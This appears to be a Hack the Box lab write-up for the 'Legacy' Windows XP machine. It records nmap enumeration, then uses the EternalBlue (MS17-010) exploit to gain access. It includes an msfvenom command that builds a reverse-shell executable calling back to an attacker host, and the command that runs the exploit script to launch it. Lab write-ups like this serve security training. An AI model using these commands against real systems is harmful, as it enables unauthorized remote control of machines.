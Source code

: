 ```yaml
---
title: Hack the Box - Legacy
date: 2022-08-15 14:45:00 -500 
categories: [Hack the Box]
tags: [oscp,windows]
---
```


![Legacy](/assets/HackTheBox/Legacy/Legacy.png)

# Legacy Overview

## Machine Details

| IP | Hostname | Operating System |
|----|----------|------------------|
| 10.10.10.4 | Legacy | Windows |

## Path to Exploitation

This box has a very straight-forward path to exploitation. We leverage the Eternal Blue vulnerability to grant us full access to the machine. 

# Enumeration

## Full Port Scan

```bash
nmap -p- -Pn 10.10.10.3 -oA nmap/full-port 
```
Results:

| PORT | STATE | SERVICE |
|------|-------|---------|
| 135 | open | msrpc |
| 139 | open | netbios-ssn |
| 445 | open | microsoft-ds |

## Service Scan

```bash
nmap -p 135,139,445 -sC -sV -oA Legacy/nmap/service-scan -Pn 10.10.10.4
```

Results:

| PORT | STATE | SERVICE | VERSION |
|------|-------|---------|---------|
| 135 | open | msrpc | Microsoft Windows RPC |
| 139 | open | netbios-ssn | Microsoft Windows netbios-ssn |
| 445 | open | microsoft-ds | Windows XP microsoft-ds |

## SMB Scan

```bash
nmap -p 135,139,445 -sC -sV -oA Legacy/nmap/service-scan -Pn 10.10.10.4
```

Results:

![SMB Scan](/assets/HackTheBox/Legacy/smb-scan.png "SMB Scan")

Host is vulnerable to MS08-67 and MS17-010

# Exploitation and Privilege Escalation

We can use the [send_and_execute.py](https://github.com/cyberhexe/eternalblue/blob/master/send_and_execute.py) script to launch our reverse shell on the host

First we need to generate our reverse shell payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f exe-service -o evil.exe
```

Then use the script to execute it 

```bash
python /opt/MS17-010/send_and_execute.py 10.10.10.4 evil.exe
```

We see we have a shell running on the host

![Reverse Shell](/assets/HackTheBox/Legacy/rev-shell.png "Reverse Shell")
